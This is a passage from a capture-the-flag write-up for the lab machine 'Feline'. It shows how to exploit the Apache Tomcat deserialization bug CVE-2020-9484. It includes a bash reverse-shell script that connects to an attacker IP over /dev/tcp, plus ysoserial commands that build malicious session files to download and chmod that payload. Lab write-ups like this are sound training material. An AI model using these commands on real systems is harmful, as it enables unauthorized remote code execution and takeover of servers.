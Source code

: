 * [https://tomcat.apache.org/security-9.html\#Fixed\_in\_Apache\_Tomcat\_9.0.29](https://tomcat.apache.org/security-9.html#Fixed_in_Apache_Tomcat_9.0.29)

![](../../.gitbook/assets/3-cve1.png)

Found a vulnerability that had been fixed in version 9.0.35 that sounded very useful for getting remote code execution, which was given CVE number CVE-2020-9484.

* [https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/](https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/)
* [https://packetstormsecurity.com/files/157924/Apache-Tomcat-CVE-2020-9484-Proof-Of-Concept.html](https://packetstormsecurity.com/files/157924/Apache-Tomcat-CVE-2020-9484-Proof-Of-Concept.html)

> Apache Tomcat is affected by a Java deserialization vulnerability if the PersistentManager is configured as session manager. Successful exploitation requires the attacker to be able to upload an arbitrary file to the server.

* [https://medium.com/@romnenko/apache-tomcat-deserialization-of-untrusted-data-rce-cve-2020-9484-afc9a12492c4](https://medium.com/@romnenko/apache-tomcat-deserialization-of-untrusted-data-rce-cve-2020-9484-afc9a12492c4)
* [https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial)

```text
#!/bin/bash

bash -c "bash -I >& /dev/tcp/10.10.15.98/8990 0>&1"
```

Downloaded the latest release of ysoserial and created my simple reverse shell script payload

```text
┌──(zweilos㉿kali)-[~/htb/feline]
└─$ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'curl http://10.10.15.98:9990/payload.sh -o /dev/shm/payload.sh' > downloadPayload.session
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

Then followed the instructions to use ysoserial to create my malicious session file to deserialize

```text
┌──(zweilos㉿kali)-[~/htb/feline]
└─$ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'chmod 777 /dev/shm/payload.sh' > chmodPayload.session   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```
